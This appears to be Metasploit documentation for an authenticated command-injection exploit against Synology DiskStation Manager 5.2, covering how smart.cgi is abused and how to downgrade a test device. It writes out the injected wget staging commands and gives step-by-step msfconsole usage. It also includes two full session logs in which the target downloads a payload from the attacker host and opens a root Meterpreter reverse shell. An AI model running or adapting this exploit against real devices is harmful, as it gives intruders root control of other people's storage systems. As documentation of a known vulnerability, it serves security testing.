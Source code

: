 ## Vulnerable Application

This module exploits a vulnerability found in Synology DiskStation Manager (DSM)
versions < 5.2-5967-5, which allows the execution of arbitrary commands under root
privileges after website authentication.

The vulnerability is located in `webman/modules/StorageManager/smart.cgi`, which
allows appending of a command to the device to be scanned.  However, the command
with drive is limited to 30 characters.  A somewhat valid drive name is required,
thus /dev/sd is used, even though it doesn't exist.  To circumvent the character
restriction, a wget input file is staged in /a, and executed to download our payload
to /b.  From there the payload is executed.  A wfsdelay is required to give time
for the payload to download, and the execution of it to run.

A more detailed explanation of exploitation steps:

1. We first clean the env by deleting `/a`, and `b`
2. we use `echo -n` to append our IP:PORT for our staging server to `/a`.  This is
done in small chunks to stay under the character limit.
3. we call `wget -i /a -O b` to write our payload to `b` in `/usr/syno/synoman/webman/modules/StorageManager`
4. we wait for HTTP Server to receive the `wget` request and send back the payload.  Then we execute it.

### Notes

`smart.cgi` and our payload are located in `/usr/syno/synoman/webman/modules/StorageManager`.

`/var/log/messages` will contain logs of exploitation:

```
May 19 16:35:50 oldNas smart.cgi: smart.cpp:477 smartctl system command failed cmd: /usr/syno/bin/smartctl -d sat -t short /dev/sd`wget -i /a -O b` > /dev/null 2>&1 ret: 4
May 19 16:35:50 oldNas smart.cgi: smart.cpp:846 error
```

No randomization was chosen on the `a` and `b` file names since we're so limited on characters as it is.
While it would be possible to randomize a single character, it didn't seem worth the effort.

### Device Downgrade

The vulnerable DSM can be downloaded from [Synology](https://archive.synology.com/download/DSM/release/5.2/5644/)

Essentially Synology doesn't want you to downgrade. In order to do so, we need to mount the recovery boot loader
and overwrite it with synology 5.2.  Then when we cause an issue (by removing the disks on boot), it will boot
to the recovery.  Since the recovery is 5.2, it will let us install the 'current' version of 5.2.

You'll want to watch [Downgrade DSM6.x to DSM 5.2](https://youtube.com/watch?v=DFtOmEv63n4)

The notes from the video are:

1. Turn on synology and backup data if needed.
2. Create a shared folder. ("test" is used in this guide)
3. Locally, extract 4 files from DSM 5644.pat (grub_cksum.syno, rd.gz, zImage, checksum.syno)
and place the files in the newly created shared folder on the NAS.
4. Enable telnet/ssh in the DSM control panel.
5. telnet/ssh to the diskstation.
6. Log in as admin.
7. Type `sudo su`. The password it asks for will also be the admins password.
8. Type `cd /dev` to change to the devices directory.
9. Type `ls synoboot2` to make sure synoboot2 is listed.
10. Type `mkdir /mnt/synoboot` to make a directory to mount to.
11. Type `mount synoboot2 /mnt/synoboot` to mount the boot files to the directory we created.
12. Type `cd /mnt/synoboot` to change to that directory.
13. Type `ls` to view the files in the directory.
(note that the names of the 4 files we put in the shared folder, should be there.
Although these ones listed are the DSM6 versions)
14. Type `cp /volume1/test/checksum.syno /mnt/synoboot`.
15. Type `cp /volume1/test/grub_cksum.syno /mnt/synoboot`.
16. Type `cp /volume1/test/rd.gz /mnt/synoboot`.
17. Type `cp /volume1/test/zImage /mnt/synoboot`.
18. Go back into the DSM interface and shutdown. Once the device is shutdown, remove the disks.
(This step is important because if you do not remove the disks,
the next powerup will detect an issue and recover the DSM6 boot image)
19. Power the device up. Should say no disks inserted.
Before clicking the connect again button, put the hard disks back in and wait for the HDD LED's to light up.
20. If disks are in, click the connect again button.
Next page should come up saying to reinstall DSM.
Make sure to choose the 5967 pat file so that the bootimage is overwritten correctly.
21. Good to go! Data should remain intact as long as it is in a shared folder,
and DSM should be a completely stock 5.2 - 5967.

## Verification Steps

  1. Install the 5.2 vulnerable DSM
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/synology_dsm_smart_exec_auth```
  4. Do: ```set username <username>```
  5. Do: ```set password <password>```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for website login.  Default is `password`.

### Username

Username for website login.  Default is `admin`.

### wfsdelay

Wfsdelay needs to be at least a couple seconds to allow for payload download and staging.  Default is `10`.

## Scenarios

### DS412+ with DSM 5.2-5644

  ```
  [*] Processing synology.rc for ERB directives.
  resource (synology.rc)> use modules/exploits/linux/http/synology_dsm_smart_exec_auth
  resource (synology.rc)> set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  resource (synology.rc)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (synology.rc)> set lport 60111
  lport => 60111
  resource (synology.rc)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (synology.rc)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (synology.rc)> set username admin
  username => admin
  resource (synology.rc)> set password password
  password => password
  resource (synology.rc)> set verbose true
  verbose => true
  resource (synology.rc)> rexploit
  [*] Reloading module...
  [*] Started reverse TCP handler on 1.1.1.1:60111 
  [*] Trying to detect installed version
  [*] Model DS412+ with version 5.2-5644 detected
  [*] Attempting Login
  [*] Using URL: http://1.1.1.1:8080/
  [*] Cleaning env
  [*] Staging wget with: echo -n '1.1'>>/a
  [*] Staging wget with: echo -n '.1.1:'>>/a
  [*] Staging wget with: echo -n '8080'>>/a
  [*] Requesting payload pull
  [+] HTTP Server request received, sending payload
  [*] Executing payload
  [*] Sending stage (53755 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:60111 -> 2.2.2.2:42353) at 2020-05-19 20:13:33 -0400
  [*] Server stopped.
  [!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
  [!] This exploit may require manual cleanup of '/a' on the target

  meterpreter > 
  [+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
  [+] Deleted /a

  meterpreter > getuid
  Server username: root
  meterpreter > sysinfo
  Computer     : oldNas
  OS           : Linux 3.10.35 #5644 SMP Thu Nov 12 17:18:22 CST 2015
  Architecture : x64
  Meterpreter  : python/linux
  meterpreter > cat /etc.defaults/VERSION
  majorversion="5"
  minorversion="2"
  buildphase="hotfix"
  buildnumber="5644"
  smallfixnumber="0"
  builddate="2015/11/12"
  buildtime="17:17:21"
  meterpreter > 
  ```

### DS410 with DSM 5.2-5644

This unit's version was not able to be determined automatically.  `forceexploit` was set to `true` to enable it to run.

```
msf5 exploit(linux/http/synology_dsm_smart_exec_auth) > run

[*] Started reverse TCP handler on 192.168.135.168:4567 
[*] Trying to detect installed version
[*] Attempting Login
[*] Using URL: http://192.168.135.168:8080/
[*] Cleaning env
[*] Staging wget with: echo -n '192.168'>>/a
[*] Staging wget with: echo -n '.135.16'>>/a
[*] Staging wget with: echo -n '8:8080'>>/a
[*] Requesting payload pull
[+] HTTP Server request received, sending payload
[*] Executing payload
[*] Sending stage (53755 bytes) to 192.168.132.107
[*] Meterpreter session 1 opened (192.168.135.168:4567 -> 192.168.132.107:54951) at 2020-05-20 13:53:18 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
[!] This exploit may require manual cleanup of '/a' on the target

meterpreter > 
[+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
[+] Deleted /a

meterpreter > sysinfo
Computer     : DiskStation
OS           : Linux 2.6.32.12 #5644 Thu Nov 12 17:17:40 CST 2015
Architecture : ppc
Meterpreter  : python/linux
meterpreter > exit
```

